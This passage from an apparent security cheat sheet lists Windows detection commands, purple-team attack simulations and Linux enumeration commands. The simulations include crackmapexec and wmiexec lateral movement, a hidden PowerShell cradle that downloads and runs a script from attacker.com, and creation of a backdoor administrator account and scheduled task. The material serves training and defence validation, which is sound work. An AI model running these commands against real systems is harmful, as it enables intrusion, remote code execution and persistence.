 **Detect Persistence**
```bash
Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Run
Get-ScheduledTask | Where-Object {$_.Principal.UserId -eq "SYSTEM"}
```
Identify unauthorized persistence mechanisms.

**Detect Data Exfiltration**
```bash
Get-NetTCPConnection -State Established | Where-Object {$_.RemotePort -ne 443,80,53}
```
Monitor for unexpected outbound connections.

---

## <a name="windows-purple"></a>Windows - PURPLE Team (Hybrid)

### Attack Simulation & Validation

**Simulate Lateral Movement**
```bash
crackmapexec smb 192.168.1.0/24 -u user -p password
impacket-wmiexec -codec utf-8 DOMAIN/USER:PASSWORD@TARGET
```
Simulate lateral movement for defense validation.

**Test Detection Capability**
```bash
cmd /c powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/ps.ps1')"
```
Test if defenses detect common attack patterns.

**Verify Incident Response**
```bash
net user TestAttacker /add
net localgroup Administrators TestAttacker /add
schtasks /create /tn TestTask /tr "cmd /c whoami" /sc onlogon
```
Verify incident response procedures work correctly.

---

## <a name="linux-red"></a>Linux - RED Team (Offensive)

### System Enumeration

**OS & Kernel Information**
```bash
uname -a
cat /etc/os-release
cat /etc/issue
uname -r | cut -d. -f1-2
```
Get Linux kernel version and distribution for exploit targeting.
